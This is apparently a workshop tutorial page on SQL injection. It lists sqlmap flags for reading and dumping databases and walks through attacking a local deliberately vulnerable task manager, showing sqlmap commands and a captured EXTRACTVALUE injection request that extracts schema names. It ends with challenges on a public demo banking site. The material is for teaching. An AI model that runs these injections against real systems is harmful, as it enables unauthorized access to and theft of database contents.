 # SQL Injection
### Description
Ability to influence the structure of a SQL database query through unsafe includes of user input.

* ` stmt = "SELECT * FROM users WHERE username=" + INPUT[user]`

### Tool
####sqlmap
http://sqlmap.org - Command Line tool for dealing with SQL injection flaws

Required flags
- `-u URL` Target URL

Commonly-used configuration flags
- `--data=DATA` String to be sent through POST
- `--cookie=COOKIE` Cookie data for authenticated sessions
- `--proxy=PROXY` Route sqlmap requests through a proxy so you can see what it's doing
- `-p TESTPARAMETER` Parameter you want to check

Quick check data access flags
- `-b, --banner` Retrieve DBMS banner
- `--current-user`
- `--current-db`

Dump the data flags
- `--dump-all` careful, this can be slow
- `--dump` dump the targeted table data
- `-D DB` target database
- `-T TBL` target table
- `-C COL` target column


## Walkthroughs

| Application | Location | Parameter | Tool |
| ---- | ---- | ---- | ---- |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/forgot_password/ | email | sqlmap |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/7/project_details/ | URL parameter | sqlmap |

### Forgot Password SQL Injection
#### Step 1 - Validate SQL Injection Vulnerability
Validate access to the vulnerable task manager application, you should see the following login page.

![vtm login](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-login.png)

Access the Forgot Password Page

![vtm forgot password](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-forgot-password.png)

Validate that the email parameter throws a SQL error message by inserting `test@tm.com'` into the Email form field

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-email-sql-error.png)


#### Step 2 - Use sqlmap to confirm vulnerability
Since the forgot password page does not require authentication, use some of the above flags to confirm the vulnerability by using flags for posting data to the endpoint
```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" --banner
```

sqlmap will step through every parameter and ask if it should check for possible sql injection, you can bypass this check using `-p email`

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --banner
```

#### Step 3 - Explore commands sent using sqlmap with a proxy
Since you have confirmed that the endpoint is vulnerable to SQL Injection and exploitable with sqlmap, now use Burp Suite to view the requests being sent to the server by dumping the full schema of the backend mysql database.

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --proxy=http://127.0.0.1:8080 --schema
```

The full request to dump a portion of the schema looks as follows, use Burp Suite HTTP History to view similar requests.

```
POST /taskManager/forgot_password/ HTTP/1.1
Content-Length: 258
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: sqlmap/1.2.8.15#dev (http://sqlmap.org)
Host: 127.0.0.1:8000
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8

email=test%40tm.com%27%20AND%20EXTRACTVALUE%281890%2CCONCAT%280x5c%2C0x716a6a7071%2C%28SELECT%20MID%28%28IFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%29%2C1%2C21%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202%2C1%29%2C0x71626a7071%29%29--%20UufD
```

### Project Details SQL Injection


## Challenges
http://demo.testfire.net

| Challenge | Difficulty |
| ---- | ---- |
| Bypass Login | :star: |
| That's a sketchy transaction | :star::star::star: |
| Make `jsmith` filthy rich (hint: Access Control chaining)	| :star::star::star::star::star:|
